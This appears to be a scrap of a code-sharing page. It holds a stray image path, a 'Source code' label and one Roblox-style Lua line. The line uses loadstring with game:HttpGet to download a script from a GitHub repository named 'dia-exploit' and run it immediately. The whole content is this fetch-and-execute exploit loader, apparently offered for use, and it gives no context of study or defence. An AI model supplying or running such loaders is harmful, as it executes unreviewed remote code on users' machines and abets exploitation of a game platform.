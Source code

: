 loadstring(game:HttpGet('https://raw.githubusercontent.com/muffy-jpg/dia-exploit/refs/heads/main/cosinus.txt'))()'
